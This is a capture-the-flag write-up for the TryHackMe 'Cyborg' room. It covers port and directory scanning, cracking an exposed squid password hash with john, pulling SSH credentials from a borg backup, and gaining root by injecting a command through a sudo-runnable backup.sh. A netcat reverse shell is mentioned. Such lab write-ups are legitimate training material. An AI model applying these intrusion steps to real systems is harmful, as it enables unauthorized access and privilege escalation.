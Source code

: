 # 20 - Cyborg

Room Link --> [https://tryhackme.com/room/cyborgt8](https://tryhackme.com/room/cyborgt8)

### Enumeration <a href="#nmap" id="nmap"></a>

From scan `nmap -v -sV -p- -o nmap-cyborg.txt 10.10.148.181`

{% code overflow="wrap" lineNumbers="true" %}
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
{% endcode %}

#### Gobuster[​](https://ronamosa.io/docs/hacker/tryhackme/cyborg/#gobuster) <a href="#gobuster" id="gobuster"></a>

`gobuster dir -u http://10.10.57.219 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,html,js,txt -t 500 2>/dev/null`

```
http://10.10.19.193/.hta                 (Status: 403) [Size: 277]
http://10.10.19.193/.htaccess            (Status: 403) [Size: 277]
http://10.10.19.193/.htpasswd            (Status: 403) [Size: 277]
http://10.10.19.193/admin                (Status: 301) [Size: 312] [--> http://10.10.19.193/admin/]
http://10.10.19.193/etc                  (Status: 301) [Size: 310] [--> http://10.10.19.193/etc/]
http://10.10.19.193/index.html           (Status: 200) [Size: 11321]
http://10.10.19.193/server-status        (Status: 403) [Size: 277]
```

Browse to `http://10.10.19.193/etc/squid/passwd` and find `music_archive:$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.`

#### Crack it with john

`john passwd --wordlist=/usr/share/wordlists/rockyou.txt` .

<figure><img src=".gitbook/assets/image (171).png" alt=""><figcaption></figcaption></figure>

We got a username and password: `music_archive:squidward` .

#### Continue web enumeration

Navigate to `http://10.10.57.219/etc/squid/squid.conf`

<figure><img src=".gitbook/assets/image (173).png" alt=""><figcaption></figcaption></figure>

Navigate to `http://10.10.57.219/admin/admin.html`

There is an "archive.tar" file there. Extract it, read the README file,  and see its a "Borgbackup" file.

I installed the `borgbackup` repository using `apt`.

```
sudo apt-get install borgbackup
```

Reading through the documentation, I first understood what `borgbackup` was.

<figure><img src="https://cryptichacker.github.io/assets/img/tryhackme/cyborg/13.png" alt=""><figcaption></figcaption></figure>

On the man pages we see how to extract an archive file.

<figure><img src="https://cryptichacker.github.io/assets/img/tryhackme/cyborg/12.png" alt=""><figcaption></figcaption></figure>

### Initial Access

After extraction, we navigated and found a credential for ssh.

<figure><img src=".gitbook/assets/image (174).png" alt=""><figcaption></figcaption></figure>

### Priv Esc

<figure><img src=".gitbook/assets/image (175).png" alt=""><figcaption></figcaption></figure>

We can run the "/etc/mp3backups/backup.sh" file as root.

{% code overflow="wrap" lineNumbers="true" %}
```bash
#!/bin/bash

sudo find / -name "*.mp3" | sudo tee /etc/mp3backups/backed_up_files.txt


input="/etc/mp3backups/backed_up_files.txt"
#while IFS= read -r line
#do
  #a="/etc/mp3backups/backed_up_files.txt"
#  b=$(basename $input)
  #echo
#  echo "$line"
#done < "$input"

while getopts c: flag
do
	case "${flag}" in 
		c) command=${OPTARG};;
	esac
done

backup_files="/home/alex/Music/song1.mp3 /home/alex/Music/song2.mp3 /home/alex/Music/song3.mp3 /home/alex/Music/song4.mp3 /home/alex/Music/song5.mp3 /home/alex/Music/song6.mp3 /home/alex/Music/song7.mp3 /home/alex/Music/song8.mp3 /home/alex/Music/song9.mp3 /home/alex/Music/song10.mp3 /home/alex/Music/song11.mp3 /home/alex/Music/song12.mp3"

# Where to backup to.
dest="/etc/mp3backups/"

# Create archive filename.
hostname=$(hostname -s)
archive_file="$hostname-scheduled.tgz"

# Print start status message.
echo "Backing up $backup_files to $dest/$archive_file"

echo

# Backup the files using tar.
tar czf $dest/$archive_file $backup_files

# Print end status message.
echo
echo "Backup finished"

cmd=$($command)
echo $cm
```
{% endcode %}

This part looks the most interesting because it's allowing a command to be injected in here, running as root.

```bash
while getopts c: flag
do
	case "${flag}" in 
		c) command=${OPTARG};;
	esac
done
```

This [page](https://www.howtogeek.com/778410/how-to-use-getopts-to-parse-linux-shell-script-options/) explains how `getopts` works by letting you set the characters used to trigger the cases.

I try adding a `-c /bin/bash` to the backup script, and got root. But there is no output.

We can setup nc in another terminal, then run bash one-liner rev shell.

<figure><img src=".gitbook/assets/image (176).png" alt=""><figcaption></figcaption></figure>

Done.

